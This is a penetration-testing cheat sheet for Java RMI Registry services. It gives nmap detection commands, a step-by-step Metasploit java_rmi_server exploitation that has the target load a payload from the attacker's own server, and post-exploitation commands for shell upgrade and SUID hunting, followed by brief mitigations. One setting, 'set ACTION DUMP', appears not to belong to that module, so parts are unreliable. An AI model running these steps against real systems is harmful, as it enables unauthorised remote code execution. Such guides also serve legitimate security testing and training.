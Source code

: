 
Java RMI (Remote Method Invocation) Registry, typically running on port 1099, facilitates remote Java method calls. Misconfigurations or insecure defaults can lead to vulnerabilities, enabling remote code execution through the Distributed Garbage Collector or insecure deserialization.

### Key Information:

- **Default Port:** 1099/TCP
- **Common Usage:** Enterprise applications, Java-based services
- **Potential Impact:** Remote Code Execution (RCE)

---

## Detection

### 1. Port Scanning

Identify the RMI service using Nmap:

```bash
# Scan RMI port
nmap -p 1099 <target>

# Identify version
nmap -sV -p 1099 <target>
```

Look for RMI-related banners, such as `GNU Classpath grmiregistry`.

### 2. Metasploit Scanner

Detect RMI vulnerabilities:

```bash
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS <target>
run
```

---

## Exploitation Steps

### Using Metasploit

1. Load the RMI exploit module:

```bash
use exploit/multi/misc/java_rmi_server
```

2. Configure settings:

```bash
set RHOSTS <target>
set RPORT 1099  # Default RMI port
set SRVHOST <your_ip>  # Your attacking machine IP
set SRVPORT 8080  # Server port for payload hosting
set ACTION DUMP  # Dump memory content
```

3. Execute the exploit:

```bash
run
```

---

## Post-Exploitation

1. **Upgrade Your Shell:**

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

2. **Privilege Escalation:**

- Check current permissions:
    
    ```bash
    id
    whoami
    ```
    
- Look for sensitive files or processes:
    
    ```bash
    find / -perm -4000 2>/dev/null  # SUID files
    ```
    

---

## Important Notes

1. **Non-Standard Ports:**
    
    - RMI may use alternate ports like 1098, 1100, 8901, or 9001.
    - Perform full port scans to locate the service:
        
        ```bash
        nmap -p- <target>
        ```
        
2. **Obstacles:**
    
    - Potential timeouts or blocked traffic
    - Java version mismatches causing incompatibilities
3. **Security Features:**
    
    - Identify custom security managers or SSL/TLS configurations.

---

## Mitigation Recommendations

1. Disable RMI Registry when unnecessary.
2. Restrict access to RMI using firewall rules.
3. Use secure socket factories with authentication mechanisms.
4. Keep Java and dependencies updated to the latest versions.
5. Implement a custom Java Security Manager to limit RMI operations.

---

## Useful Resources

1. [Java RMI Documentation](https://docs.oracle.com/javase/8/docs/platform/rmi/spec/rmi-title.doc.html)
2. [BaRMIe Tool](https://github.com/NickstaDB/BaRMIe)
3. [Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server)

---
